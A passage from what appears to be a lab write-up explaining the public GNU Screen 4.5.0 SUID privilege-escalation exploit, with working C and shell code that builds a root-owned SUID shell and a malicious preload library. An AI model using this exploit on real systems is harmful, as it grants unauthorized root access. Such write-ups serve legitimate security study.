 This jumped out to me because I ran into this during OSCP. There’s a [vulnerability](https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html) in SUID `screen` and it happens to be for that version.

### Exploit Details

In Screen version 4.5.0, if the user specifies a log file, the program will open and append to that log file. Because `screen` is typically set to SUID to function, that means write as root.

There is an [exploit in ExploitDB](https://www.exploit-db.com/exploits/41154) which consists of one long Bash script. I’ll break it into pieces to walk through it (some mods would need to be made anyway).

Most of the exploit is creating and compiling two binary files. First, it creates a shared object / library:

```

cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c

```

This library has a `dropshell` function that is marked as `__attribute__ ((__constructor__))`. [This means](https://gcc.gnu.org/onlinedocs/gcc-4.7.0/gcc/Function-Attributes.html#:~:text=The%20constructor%20attribute%20causes%20the,exit%20()%20has%20been%20called) it will run before execution enters main. It is very simple. It just changes the owner of `/tmp/rootshell` to root:root, then changes the permissions to be SUID, removes the file `/etc/ld.so.preload`, and prints a message. This code is compiled into `/tmp/libhax.so`

Next the script creates `/tmp/rootshell`:

```

cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c

```
